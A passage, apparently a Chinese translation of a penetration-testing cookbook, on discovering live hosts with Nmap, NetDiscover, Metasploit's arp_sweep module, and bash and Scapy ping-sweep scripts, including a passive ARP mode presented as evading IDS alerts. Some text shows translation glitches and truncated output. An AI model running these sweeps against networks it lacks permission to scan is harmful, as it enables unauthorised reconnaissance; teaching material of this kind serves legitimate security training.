MAC Address: 00:50:56:FF:2A:8E (VMware)
Nmap scan report for 172.16.36.1
Host is up (0.00021s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.36.132
Host is up (0.00031s latency).
MAC Address: 00:0C:29:65:FC:D2 (VMware)
Nmap scan report for 172.16.36.135
Host is up (0.00014s latency).
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap scan report for 172.16.36.180
Host is up.
Nmap scan report for 172.16.36.254
Host is up (0.00024s latency).
MAC Address: 00:50:56:EF:B9:9C (VMware)
Nmap done: 8 IP addresses (6 hosts up) scanned in 0.41
```


当使用 `-sn` 参数时，`Nmap` 会首先尝试通过第 2 层 ARP 请求定位主机，只有当主机不在局域网（LAN）中时，它才会使用第 3 层 ICMP 请求。

注意观察对本地网络（在 `172.16.36.0/24` 私有范围）上的主机执行的 `Nmap` ping 扫描是如何返回 MAC 地址的。这是因为 MAC 地址是由主机的 ARP 响应返回的。然而，如果对不同局域网上的远程主机执行相同的 `Nmap` ping 扫描，响应将将不再包含系统 MAC 地址：

```
root@KaliLinux:~# nmap -sn 74.125.21.0-255
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-11 05:42 EST
Nmap scan report for 74.125.21.0
Host is up (0.0024s latency).
Nmap scan report for 74.125.21.1
Host is up (0.00017s latency).
Nmap scan report for 74.125.21.2
Host is up (0.00028s latency).
Nmap scan report for 74.125.21.3
Host is up (0.00017s latency).
```

### 发现扫描

当对远程网络范围（公共范围 `74.125.21.0/24`）执行时，你可以发现使用了第 3 层发现，因为没有返回任何 MAC 地址。这表明 `Nmap` 在可能的情况下会自动利用第 2 层发现的速度，但在必要时，它会使用可路由的 ICMP 请求来发现第 3 层的远程主机。在对本地网络上的主机执行 `Nmap` ping 扫描时，使用 `Wireshark` 监控流量也可以看到这一点。在下面的截图中，你可以看到 `Nmap` 利用 ARP 请求来识别本地网段上的主机：

### 工作原理……

`Nmap` 已经功能非常强大，几乎不需要或无需任何修改即可运行所需的扫描。其底层原理是相同的。`Nmap` 向一系列 IP 地址的广播地址发送 ARP 请求，并通过标记响应来识别活动主机。然而，由于此功能已集成到 `Nmap` 中，只需提供适当的参数即可执行。

### 使用 NetDiscover 执行第 2 层发现

`NetDiscover` 是一种通过主动和被动 ARP 分析来识别网络主机的工具。它主要设计用于在无线接口上使用；但在交换机环境中同样有效。在这个特定的特定的配方中，我们将讨论如何使用 `NetDiscover` 进行主动和被动扫描。

### 准备工作

要使用 `NetDiscover` 执行 ARP 发现，你需要在局域网内至少有一个会响应 ARP 请求的系统。在提供的示例中，使用了 Linux 和 Windows 系统的组合。有关在本地实验环境中设置系统的更多信息，请参阅 `Chapter 1`，`Getting Started`get 中的 `Installing Metasploitable2` 和 `Installing Windows Server` 配方。

### 如何操作……

`NetDiscover` 是一个专为执行第 2 层发现设计的工具。在使用 `-r` 参数时，可以将 CIDR 表示法的网络范围作为参数传递给 `NetDiscover`，从而用于扫描一系列 IP 地址。输出将生成一个表格，列出活动 IP 地址、相应的 MAC 地址、响应数量、响应长度和 MAC 厂商：

```
root@KaliLinux:~# netdiscover -r 172.16.36.0/24
Currently scanning: Finished! | Screen View: Unique Hosts
5 Captured ARP Req/Rep packets, from 5 hosts. Total size: 300
________________________________________________________________________
_____
IP At MAC Address Count Len MAC Vendor
------------------------------------------------------------------------
-----
172.16.36.1 00:50:56:c0:00:08 01 060 VMWare, Inc.
172.16.36.2 00:50:56:ff:2a:8e 01 060 VMWare, Inc.
172.16.36.132 00:0c:29:65:fc:d2 01 060 VMware, Inc.
172.16.36.135 00:0c:29:3d:84:32 01 160 VMware, Inc.
172.16.36.254 00:50:56:ef:b9:9c 01 060 VMWare, Inc.
```

`NetDiscover` 也可以从输入文本文件扫描 IP 地址。与其将 CIDR 范围表示法作为参数传递，不如将 `-l` 参数结合输入文件的名称或路径使用：

```
root@KaliLinux:~# netdiscover -l iplist.txt
Currently scanning: 172.16.36.0/24 | Screen View: Unique Hosts
39 Captured ARP Req/Rep packets, from 5 hosts. Total size: 2340
________________________________________________________________________
_____
IP At MAC Address Count Len MAC Vendor
------------------------------------------------------------------------
-----
172.16.36.1 00:50:56:c0:00:08 08 480 VMWare, Inc.
172.16.36.2 00:50:56:ff:2a:8e 08 480 VMWare, Inc.
172.16.36.132 00:0c:29:65:fc:d2 08 480 VMware, Inc.
172.16.36.135 00:0c:29:3d:84:32 08 480 VMware, Inc.
172.16.36.254 00:50:56:ef:b9:9c 07 420 VMWare, Inc.
```

该工具与其他工具不同的另一个独特功能是执行被动发现的能力。对整个子网的每个 IP 地址广播 ARP 请求有时会触发入侵检测系统（IDS）或入侵防御系统（IPS）的警报或响应。更隐蔽的方法是监听 ARP 流量，因为扫描系统会与网络上的其他系统交互，然后记录从 ARP 响应中收集的数据。这种被动扫描技术可以使用 `-p` 参数进行：

```
root@KaliLinux:~# netdiscover -p
Currently scanning: (passive) | Screen View: Unique Hosts
4 Captured ARP Req/Rep packets, from 2 hosts. Total size: 240
________________________________________________________________________
_____
IP At MAC Address Count Len MAC Vendor
------------------------------------------------------------------------
-----
172.16.36.132 00:0c:29:65:fc:d2 02 120 VMware, Inc.
172.16.36.135 00:0c:29:3d:84:32 02 120 VMware, Inc.
```

### 使用 Metasploit 执行第 2 层发现

`Metasploit` 主要是一个漏洞利用工具，该功能将在后续章节中进行详细讨论。然而，除了其主要功能外，`Metasploit` 还具有许多辅助模块，用于各种扫描和信息收集。


收集任务。特别是其中一个辅助模块，可以用于对本地子网进行 ARP 扫描。这对于许多人非常有帮助，因为 Metasploit 是大多数渗透测试员熟悉的工具，而将此功能集成到 Metasploit 中可以减少在特定测试期间所需的工具总数。本特定配方将演示如何使用 Metasploit 进行 ARP 发现。

### 准备工作

要使用 Metasploit 执行 ARP 发现，你的局域网（LAN）上至少有一个能够响应 ARP 请求的系统。在提供的示例中，使用了 Linux 和 Windows 系统的组合。有关在本地实验环境中设置系统的更多信息，请参阅`第 1 章` `入门` 中的 `Installing Metasploitable2` 和 `Installing Windows Server` 配方。

## 发现扫描

### 如何操作……

尽管 Metasploit 通常被认为一个漏洞利用框架，但它也拥有大量的辅助模块，可以用于扫描和信息收集。特别有一个辅助模块可以用于二层发现。要启动 Metasploit 框架，使用 `msfconsole` 命令。然后，使用 `use` 命令结合所需的模块来配置扫描：

```
root@KaliLinux:~# msfconsole
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMM MMMMMMMMMM
MMMN$ vMMMM
MMMNl MMMMM MMMMM JMMMM
MMMNl MMMMMMMN NMMMMMMM JMMMM
MMMNl MMMMMMMMMNmmmNMMMMMMMMM JMMMM
MMMNI MMMMMMMMMMMMMMMMMMMMMMM jMMMM
MMMNI MMMMMMMMMMMMMMMMMMMMMMM jMMMM
MMMNI MMMMM MMMMMMM MMMMM jMMMM
MMMNI MMMMM MMMMMMM MMMMM jMMMM
MMMNI MMMNM MMMMMMM MMMMM jMMMM
MMMNI WMMMM MMMMMMM MMMM# JMMMM
MMMMR ?MMNM MMMMM .dMMMM
MMMMNm `?MMM MMMM` dMMMMM
MMMMMMN ?MM MM? NMMMMMN
MMMMMMMMNe JMMMMMNMMM
MMMMMMMMMMNm, eMMMMMNMMN
MMMMNNMNMMMMMNx MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMMMNMMMM
http://metasploit.pro
Frustrated with proxy pivoting? Upgrade to layer-2 VPN pivoting with Metasploit Pro -- type 'go_pro' to launch it now.
=[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --=[ 1053 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops
msf > use auxiliary/scanner/discovery/arp_sweep
msf auxiliary(arp_sweep) >
```

一旦选择了了模块，可以使用 `show options` 命令查看可配置选项：

```
msf auxiliary(arp_sweep) > show options
Module options (auxiliary/scanner/discovery/arp_sweep):
Name Current Setting Required Description
---- --------------- -------- -----------
INTERFACE no The name of the interface
RHOSTS yes The target address range or CIDR identifier
SHOST no Source IP Address
SMAC no Source MAC Address
THREADS 1 yes The number of concurrent threads
TIMEOUT 5 yes The number of seconds to wait for new data
```

这些是指定待扫描目标、扫描系统和扫描设置信息的配置选项。此项特定扫描的大部分信息可以通过检查扫描系统的接口配置来收集。方便的是，在 Metasploit Framework 控制台中可以直接传递系统 shell 命令。在接下来的示例中，通过系统调用来执行 `ifconfig eth1`，而无需离开 Metasploit Framework 控制台界面：

```
msf auxiliary(arp_sweep) > ifconfig eth1
[*] exec: ifconfig eth1
eth1 Link encap:Ethernet HWaddr 00:0c:29:09:c3:79
inet addr:172.16.36.180 Bcast:172.16.36.255
Mask:255.255.255.0
inet6 addr: fe80::20c:29ff:fe09:c379/64 Scope:Link
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:1576971 errors:1 dropped:0 overruns:0 frame:0
TX packets:1157669 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:226795966 (216.2 MiB) TX bytes:109929055 (104.8 MiB)
Interrupt:19 Base address:0x2080
```

用于此扫描的接口是 `eth1` 接口。由于二层扫描仅有效识别本地子网上的活动主机，我们应该查看扫描系统的 IP 和子网掩码来确定扫描范围。在这种情况下，IP 地址和子网掩码表明我们应该扫描 `172.16.36.0/24` 范围。此外，可以在这些配置中识别扫描系统的源 IP 地址和 MAC 地址。要在 Metasploit 中定义配置，使用 `set` 命令，后跟要定义的变量，然后是想要赋值的值：

```
msf auxiliary(arp_sweep) > set interface eth1
interface => eth1
msf auxiliary(arp_sweep) > set RHOSTS 172.16.36.0/24
RHOSTS => 172.16.36.0/24
msf auxiliary(arp_sweep) > set SHOST 172.16.36.180
SHOST => 172.16.36.180
msf auxiliary(arp_sweep) > set SMAC 00:0c:29:09:c3:79
SMAC => 00:0c:29:09:c3:79
msf auxiliary(arp_sweep) > set THREADS 20
THREADS => 20
msf auxiliary(arp_sweep) > set TIMEOUT 5
TIMEOUT => 5
```


对于本地实验室环境，请参考`第 1 章` `入门指南` 中的 `Installing Metasploitable2` 和 `Installing Windows` 服务器配方。此外，本节将需要向文件系统写入一个脚本，并使用如 `VIM` 或 `Nano` 等文本编辑器。关于编写脚本的更多信息，请参考`第 1 章` `入门指南` 中的 `Using text editors (VIM and Nano)` 配方。

## 发现扫描

如何操作……

大多数 IT 行业的人员对 `ping` 工具非常熟悉。要使用 `ping` 确定主机是否在线，你只需要向命令传递一个参数来定义你想要测试的 IP 地址即可：

```
root@KaliLinux:~# ping 172.16.36.135
PING 172.16.36.135 (172.16.36.135) 56(84) bytes of data.
64 bytes from 172.16.36.135: icmp_req=1 ttl=64 time=1.35 ms
64 bytes from 172.16.36.135: icmp_req=2 ttl=64 time=0.707 ms
64 bytes from 172.16.36.135: icmp_req=3 ttl=64 time=0.369 ms
^C
--- 172.16.36.135 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 0.369/0.809/1.353/0.409 ms
```

当发出此命令时，一个 ICMP 回显请求将直接发送到提供的 IP 地址。要收到此 ICMP 回显请求的响应，必须满足多个条件。这些条件如下：

- 测试的 IP 地址必须已分配给某个系统
- 系统必须处于在线运行状态
- 从扫描系统到目标 IP 必须存在可用路由
- 系统必须配置为响应 ICMP 流量
- 扫描系统和目标 IP 之间没有配置丢弃 ICMP 流量的主机或网络防火墙

如你所示，有很多因素影响 ICMP 发现的成功。正因如此，ICMP 可能有些不可靠，但与 ARP 不同，它是一种可路由协议，可用于发现局域网（LAN）之外的主机。注意在上一个例中，`ping` 命令的输出中出现了 `^C`。这表示使用了转义序列（具体为 `Ctrl` + `C`）来停止进程。与 Windows 不同，集成在 Linux 操作系统中的 `ping` 命令默认会无限 ping 目标主机。然而，可以使用 `-c` 选项来指定要发送的 ICMP 请求数。使用此选项，一旦达到超时或为每个发送的数据包收到响应，进程将优雅结束。请查看以下命令：

```
root@KaliLinux:~# ping 172.16.36.135 -c 2
PING 172.16.36.135 (172.16.36.135) 56(84) bytes of data.
64 bytes from 172.16.36.135: icmp_req=1 ttl=64 time=0.611 ms
64 bytes from 172.16.36.135: icmp_req=2 ttl=64 time=0.395 ms
--- 172.16.36.135 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1000ms
rtt min/avg/max/mdev = 0.395/0.503/0.611/0.108 ms
```

正如 `ARPing` 可以在 bash 脚本中并行循环多个 IP 一样，`ping` 也可以结合 bash 脚本使用，对多个主机并行执行第 3 层发现。要编写脚本，我们需要识别与成功和失败的 `ping` 请求相关的各种响应。为了做到，我们应该先 ping 一个已知在线并响应 ICMP 的主机，然后紧跟一个对无响应地址的 `ping` 请求。以下命令演示了这一点：

```
root@KaliLinux:~# ping 74.125.137.147 -c 1
PING 74.125.137.147 (74.125.137.147) 56(84) bytes of data.
64 bytes from 74.125.137.147: icmp_seq=1 ttl=128 time=31.3 ms
--- 74.125.137.147 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 31.363/31.363/31.363/0.000 ms

root@KaliLinux:~# ping 83.166.169.231 -c 1
PING 83.166.169.231 (83.166.169.231) 56(84) bytes of data.
--- 83.166.169.231 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```

与 `ARPing` 请求一样，来自唯一字符串的字节（仅出现在与活跃 IP 地址相关的输出中，且它位于包含该地址的行上。同样，我们可以使用 `grep` 和 `cut` 的组合，从任何成功的 `ping` 请求中提取 IP 地址：

```
root@KaliLinux:~# ping 74.125.137.147 -c 1 | grep "bytes from"
64 bytes from 74.125.137.147: icmp_seq=1 ttl=128 time=37.2 ms

root@KaliLinux:~# ping 74.125.137.147 -c 1 | grep "bytes from" | cut -d " " -f 4
74.125.137.147

root@KaliLinux:~# ping 74.125.137.147 -c 1 | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1
74.125.137.147
```

通过在包含目标 IP 地址范围的循环中采用此任务序列，我们可以快速识别响应 ICMP 回显请求的活跃主机。输出是一个简单的活跃 IP 地址列表。一个使用此技术的脚本例如所示：

```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
  echo "Usage - ./ping_sweep.sh [/24 network address]"
  echo "Example - ./ping_sweep.sh 172.16.36.0"
  echo " Example will perform an ICMP ping sweep of the 172.16.36.0/24 network"
  exit
fi

prefix=$(echo $1 | cut -d '.' -f 1-3)

for addr in $(seq 1 254); do
  ping -c 1 $prefix.$addr | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

在提供的脚本中，第一行定义了 bash 解释器的位置。后续代码块执行测试以判断是否提供了一个参数。这是通过评估参数数量是否不等于 1 来判断的。如果没有提供参数，则输出脚本用法并退出。用法输出指示脚本需要 `/24` 网络地址作为参数。下一行代码从提供的地址提取网络前缀。例如，如果网络地址是 `192.168.11.0`，则 `prefix` 变量将变为 `192.168.11`。使用 `for` 循环遍历 `/24` 网络中的每个可能的 IP 地址。对于每个 IP 地址，都会执行一次 `ping` 命令。这些请求的响应将被传递，然后使用 `grep` 提取包含 "bytes from" 的行。这将提取包含活跃主机 IP 地址的行。最后，使用一系列 `cut` 函数从该输出中提取 IP 地址。注意在 `for` 循环末尾使用的是 `&` 而不是分号。`&` 允许并行执行任务而不是顺序执行。这极大缩短了扫描范围所需的时间。可以使用点和斜杠加上可执行脚本名称来运行脚本：

```
root@KaliLinux:~# ./ping_sweep.sh
Usage - ./ping_sweep.sh [/24 network address]
Example - ./ping_sweep.sh 172.16.36.0
Example will perform an ICMP ping sweep of the 172.16.36.0/24 network

root@KaliLinux:~# ./ping_sweep.sh 172.16.36.0
172.16.36.2
172.16.36.1
172.16.36.232
172.16.36.249
```


# 172.16.36.249

在提供的示例中，使用了 `ls` 命令来确认输出文件是否已创建。

可以通过将文件名作为参数传递给 `cat` 命令来查看该输出文件的内容。

### 工作原理……

`Ping` 是 IT 行业中广为人知的工具，其现有功能已经是识别存活主机。然而，它的设计初衷是发现单个主机是否存活，而不是作为一种扫描工具。本食配方中的 `bash` 脚本本质上与对 `/24` CIDR 范围内的每一个可能的 IP 地址运行 `ping` 的效果相同。但是，我们不需要手动完成这项繁琐的任务，而 `bash` 允许我们通过通过循环传递任务序列来快速、方便地完成此任务。

## 发现扫描

### 使用 Scapy 进行第 3 层发现

`Scapy` 是一个允许用户构建并向网络注入自定义数据包的工具。该工具可以用于构建 ICMP 协议请求并将其注入网络以分析响应。本特定的食配方将演示如何使用 `Scapy` 对远程主机进行第 3 层发现。

### 准备工作

使用 `Scapy` 进行第 3 层发现不需要实验室环境，因为互联网上的许多系统都会对 ICMP 回显请求做出响应。但是，除非你完全熟悉所属任何监管机构所实施的法律法规，否则强烈建议你仅在你自己的实验室执行任何类型的网络扫描。如果你希望在实验室内执行此技术，你至少需要一个会对 ICMP 请求做出响应的系统。在提供的示例中，使用了 Linux 和 Windows 系统的组合。有关在本地实验室环境中设置系统的更多信息，请参阅`第 1 章` `入门指南` 中的 `安装 Metasploitable2` 和 `安装 Windows Server` 食配方。此外，本节将需要使用 `VIM` 或 `Nano` 等文本编辑器向文件系统编写脚本。有关编写脚本的更多信息，请参阅`第 1 章` `入门指南` 中的 `使用文本编辑器 (VIM and Nano)` 食配方。

### 如何操作……

为了使用 `Scapy` 发送 ICMP 回显请求，我们需要开始堆叠层级以发送请求。堆叠数据包时的一个良好法则是按照 OSI 模型的层级向上操作。你可以通过正斜杠分隔每一层来堆叠多个层。要生成 ICMP 回显请求，需要将 IP 层与 ICMP 请求堆叠。开始之前，使用 `scapy` 命令打开 `Scapy` 交互式控制台，然后将 `IP` 对象赋值给变量：

```bash
root@KaliLinux:~# scapy
Welcome to Scapy (2.2.0)
>>> ip = IP()
>>> ip.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 127.0.0.1
dst= 127.0.0.1
\options\
```

在提供的示例中，使用 `display()` 函数在对象赋值给 `ip` 变量后查看其属性的默认配置。默认情况下，`IP` 对象配置为使用回环 IP 地址 `127.0.0.1` 进行发送和接收。要更改 `Scapy` 中对象的任何属性，你需要将 `[object].[attribute]` 设置为所需的值。在这种情况下，我们想要将目标 IP 地址更改为想要发送 ICMP 请求的系统地址，如下所示命令所示：

```python
>>> ip.dst = "172.16.36.135"
>>> ip.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 172.16.36.180
dst= 172.16.36.135
\options\
```

在为目标地址属性分配新值后，可以通过再次调用 `display()` 函数来验证更改。注意，当目标 IP 地址值更改为任何其他值时，源地址也会自动从回环地址更新为默认接口关联的 IP 地址。现在 `IP` 对象的属性已恰当修改，我们需要在数据包栈中创建第二层。要添加到栈的下一层是 ICMP 层，将其分配给一个单独的变量：

```python
>>> ping = ICMP()
>>> ping.display()
###[ ICMP ]###
type= echo-request
code= 0
chksum= None
id= 0x0
seq= 0x0
```

在提供的示例中，`ICMP` 对象使用 `ping` 变量名初始化。然后可以调用 `display()` 函数来显示 ICMP 属性的默认配置。要执行 ICMP 回显请求，默认配置就足够了。现在两个层都已正确配置，可以可以将它们堆叠起来准备发送。在 `Scapy` 中，可以通过正斜杠分隔每一层来堆叠层。请看以下命令组：

```python
>>> ping_request = (ip/ping)
>>> ping_request.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= icmp
chksum= None
src= 172.16.36.180
dst= 172.16.36.135
\options\
###[ ICMP ]###
type= echo-request
code= 0
chksum= None
id= 0x0
seq= 0x0
```

一旦将堆叠的层分配给变量，`display()` 函数将显示整个栈。这种方式堆叠层级的过程通常称为数据报封装。现在层级已经堆叠完成，请求已准备好跨网线发送。这可以使用 `Scapy` 中的 `sr1()` 函数完成：

```python
>>> ping_reply = sr1(ping_request)
..Begin emission:
.........Finished to send 1 packets.
***
Received 15 packets, got 1 answers, remaining 0 packets
>>> ping_reply.display()
###[ IP ]###
version= 4L
ihl= 5L
tos= 0x0
len= 28
id= 62577
flags=
frag= 0L
ttl= 64
proto= icmp
chksum= 0xe513
src= 172.16.36.135
dst= 172.16.36.180
\options\
###[ ICMP ]###
type= echo-reply
code= 0
chksum= 0xffff
id= 0x0
seq= 0x0
###[ Padding ]###
load= '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```

在提供的示例中，`sr1()` 函数被赋值给 `ping_reply` 变量。这执行了函数并将结果传递给该变量。接收响应后，对 `ping_reply` 变量使用 `display()` 函数来查看响应的内容。注意，此数据包是由发送初始请求的主机发送的，而目标地址是我们 Kali 系统的 IP 地址。此外，注意响应的 ICMP 类型是回显回复。基于这个示例，使用 `Scapy` 发送和接收 ICMP 的过程看起来是可行的，但如果你对一个无响应的目标地址使用相同的过程，你将很快发现问题：


示例输出被截断了，但此输出将无限持续，直到你使用 `Ctrl` + `C` 强制退出。在不向函数提供超时值的情况下，`sr1()` 函数将持续监听，直到收到响应。如果主机未在线或 IP 地址未与主机关联，将不会发送响应，函数将退出。为了在脚本中有效使用此函数，应该定义一个超时值：

```
>>> ping_reply = sr1(ping_request, timeout=1)
```

**输出：**

```
.......................................................
.......................................................
发送 1 个数据包。
....................
收到 0 个包，0 个响应，剩余 1 个数据包
```

通过作为第二个参数传递给 `sr1()` 函数的超时值，如果在指定的秒数内没有响应，进程将退出。在提供的示例中，`sr1()` 函数用于向无响应的地址发送 ICMP 请求，因为没有收到响应而退出。在目前为止提供的示例中，这些函数没有赋值给变量，但也可以直接调用函数来生成：

```
>>> answer = sr1(IP(dst="172.16.36.135")/ICMP(),timeout=1)
```

**输出：**

```
82
...发送 1 个数据包。
收到 5 个包，1 个响应，剩余 0 个数据包
```

```
>>> response.display()
```

### [ IP ]
```text
version= 4
ihl= 5
tos= 0x0
len=28
id=62578
flags=
ttl= 64
proto= icmp
chksum=0xe512
src= 172.16.36.135
dst= 172.16.36.180
options
```

### [ ICMP ]
```text
type= echo-reply
code= 0
chksum= 0xffff
id= 0x0
seq= 0x0
```

### [ Padding ]
```text
load= '\x00\x00\x00\x00\x00\x00'
```

在所提供的示例中，之前通过四个单独的命令完成的工作实际上可以通过单个命令完成。注意，如果发送到 IP 地址的 ICMP 请求在超时值指定的范围内没有回复，调用 `sr1()` 对象将导致异常。由于没有收到响应，示例中的 `answer` 变量从未被初始化：

```
>>> answer = sr1(IP(dst="83.166.169.231")/ICMP(),timeout=1)
```

**输出：**

```
..........................................发送 1 个数据包。
.........................................................
..........................
83 Discovery
收到 180 个包，0 个响应，剩余 1 个包
```

```
>>> answer.display()
Traceback (most recent call last):
File "<console>", line 1, in <module>
AttributeError: 'NoneType' object has no attribute 'display'
```

这些响应的知识可以用于生成一个脚本，对多个 IP 地址执行 ICMP 请求。脚本将遍历目标 IP 地址中所有可能的字节，对于每个值，它将发送 ICMP 请求。`sr1()` 函数返回的结果用于判断是否收到了响应：

```python
#!/usr/bin/python

import logging
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
from scapy.all import *

if len(sys.argv) != 2:
    print "Usage - ./pinger.py [/24 network address]"
    print "Example - ./pinger.py 172.16.36.0"
    print "Example will perform an ICMP scan of the 172.16.36.0/24 range"
    sys.exit()

address = str(sys.argv[1])
prefix = address.split('.')[0] + '.' + address.split('.')[1] + '.' + address.split('.')[2] + '.'

for addr in range(1,254):
    answer=sr1(IP(dst=prefix+str(addr))/ICMP(),timeout=1,verbose=0)
    if answer == None:
        pass
    else:
        print prefix+str(addr)
```

如果在执行时没有提供任何参数，用法输出将输出到屏幕上。用法输出表明该脚本需要一个参数来定义要扫描的 `/24` 网络。在提供的示例中，脚本使用 `172.16.36.0` 网络地址执行。脚本随后输出 `/24` 范围内的活跃地址列表。此输出也可以使用右括号 `>` 重定向到输出文件，后跟输出文件名。例如如下：

```bash
root@KaliLinux# ./pinger.py 172.16.36.0 > output.txt
root@KaliLinux# ls output.txt
output.txt
root@KaliLinux# cat output.txt
172.16.36.1
172.16.36.2
172.16.36.132
172.16.36.135
```

一旦脚本被写入本地目录，你就可以使用点和正斜杠加上可执行脚本的名称在终端中执行它：

```bash
root@KaliLinux# ./pinger.py
Usage - ./pinger.py [/24 network address]
Example - ./pinger.py 172.16.36.0
Example will perform an ICMP scan of the 172.16.36.0/24 range
root@KaliLinux# ./pinger.py 172.16.36.0
172.16.36.2
172.16.36.1
172.16.36.132
172.16.36.135
```


与之前的脚本的主要区别在于，这个脚本接受一个文件名作为参数，然后遍历该文件中列出的每个 IP 地址进行扫描。与其他脚本类似，结果的输出将包含一个简单的 IP 地址列表，这些地址对应对 ICMP 回显请求响应了 ICMP 回显响应的系统：

```
root@KaliLinux:~# ./pinger.py
Usage - ./pinger.py [filename]
Example - ./pinger.py iplist.txt
```

示例将对 `iplist.txt` 中列出的 IP 地址进行 ICMP ping 扫描。

```
root@KaliLinux:~# ./pinger.py iplist.txt
172.16.36.1
172.16.36.2
172.16.36.132
172.16.36.135
```

第 2 章

此脚本的输出可以用同样的方式重定向到输出文件中。通过提供的输入文件作为参数执行脚本，然后使用右角括号 `>` 重定向输出，后跟输出文本文件名。示例所示：`root@KaliLinux:~# ./pinger.py iplist.txt > output.txt`

```
root@KaliLinux:~# ls output.txt
output.txt
root@KaliLinux:~# cat output.txt
172.16.36.1
172.16.36.2
172.16.36.132
172.16.36.135
```

### 工作原理……

此处使用 Scapy 通过构造一个包含 IP 层和附加 ICMP 请求的请求执行 ICMP 层发现。IP 层允许数据包路由到本地网络之外，而 ICMP 请求则用于请求远程系统的响应。在 Python 脚本中使用此技术，可以顺序执行此任务以扫描多个系统或整个网络范围。

## 使用 Nmap 进行第 3 层发现

Nmap 是 Kali Linux 中最强大且功能丰富的扫描工具之一。因此，Nmap 能够支持 ICMP 发现扫描并不令人意外。本配方将演示如何使用 Nmap 对远程主机进行第 3 层发现。

### 准备工作

使用 Nmap 进行第 3 层发现不需要实验室环境，因为互联网上的许多系统都会响应 ICMP 回显请求。但是，强烈建议你仅在自己的实验室执行任何类型的网络扫描，除非你完全熟悉你所属的任何管理机构所实施的法律法规。如果你希望在实验室中执行此技术，你至少需要一个能够响应 ICMP 请求的系统。在提供的示例中，使用了 Linux 和 Windows 系统的组合。有关在本地实验室环境中设置系统的更多信息，请参阅 `第 1 章`、`入门` 中的 `安装 Metasploitable2` 和 `安装 Windows Server` 配方。

发现扫描

### 如何操作……

Nmap 是一个自适应工具，它会根据需要自动调整并使用第 2 层、第 3 层或第 4 层发现。如果在 Nmap 中使用 `-sn` 选项来扫描本地网段中不存在的 IP 地址，将使用 ICMP 回显请求来确定主机是否在线并有响应。要对单个目标执行 ICMP 扫描，请使用带有 `-sn` 选项的 Nmap 并将要扫描的 IP 地址作为参数传递：

```
root@KaliLinux:~# nmap -sn 74.125.228.1
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-16 23:05 EST
Nmap scan report for iad23s05-in-f1.1e100.net (74.125.228.1)
Host is up (0.00013s latency).
Nmap done: 1 IP address (1 host up) scanned in 0.02 seconds
```

此命令的输出将指示设备是否在线，并提供有关执行扫描的详细信息。此外，注意系统名称也被识别。Nmap 还会执行 DNS 解析并在扫描输出中提供此信息。它还可以使用破折号表示法扫描连续的 IP 地址范围。Nmap 默认是多线程，并并行运行多个进程。因此，Nmap 返回扫描结果的速度非常快。查看以下命令：

```
root@KaliLinux:~# nmap -sn 74.125.228.1-255
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-16 23:14 EST
Nmap scan report for iad23s05-in-f1.1e100.net (74.125.228.1)
Host is up (0.00012s latency).
Nmap scan report for iad23s05-in-f2.1e100.net (74.125.228.2)
Host is up (0.0064s latency).
Nmap scan report for iad23s05-in-f3.1e100.net (74.125.228.3)
Host is up (0.0070s latency).
Nmap scan report for iad23s05-in-f4.1e100.net (74.125.228.4)
Host is up (0.00015s latency).
Nmap scan report for iad23s05-in-f5.1e100.net (74.125.228.5)
Host is up (0.00013s latency).
Nmap scan report for iad23s05-in-f6.1e100.net (74.125.228.6)
Host is up (0.00012s latency).
Nmap scan report for iad23s05-in-f7.1e100.net (74.125.228.7)
Host is up (0.00012s latency).
Nmap scan report for iad23s05-in-f8.1e100.net (74.125.228.8)
Host is up (0.00012s latency).
```

在提供的示例中，Nmap 被用于扫描整个 `/24` 网络范围。为了方便查看，此命令的输出被截断了。通过使用 Wireshark 分析通过接口的流量，你可能会发现地址并不是按顺序扫描的。这可以在下面的截图中看到。这是 Nmap 多线程特性的进一步证据，并说明了进程如何从某些地址启动，而其他进程完成完成：

或者，Nmap 也可以从输入文件扫描 IP 地址。这可以使用 `-iL` 选项完成，后跟文件名或路径：

```
root@KaliLinux:~# cat iplist.txt
74.125.228.13
74.125.228.28
74.125.228.47
74.125.228.144
74.125.228.162
74.125.228.211
root@KaliLinux:~# nmap -iL iplist.txt -sn
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-16 23:14 EST
Nmap scan report for iad23s05-in-f13.1e100.net (74.125.228.13)
Host is up (0.00010s latency).
Nmap scan report for iad23s05-in-f28.1e100.net (74.125.228.28)
Host is up (0.0069s latency).
Nmap scan report for iad23s06-in-f15.1e100.net (74.125.228.47)
Host is up (0.0068s latency).
Nmap scan report for iad23s17-in-f16.1e100.net (74.125.228.144)
Host is up (0.00010s latency).
Nmap scan report for iad23s18-in-f2.1e100.net (74.125.228.162)
Host is up (0.0077s latency).
Nmap scan report for 74.125.228.211
Host is up (0.00022s latency).
Nmap done: 6 IP addresses (6 hosts up) scanned in 0.04 seconds
```


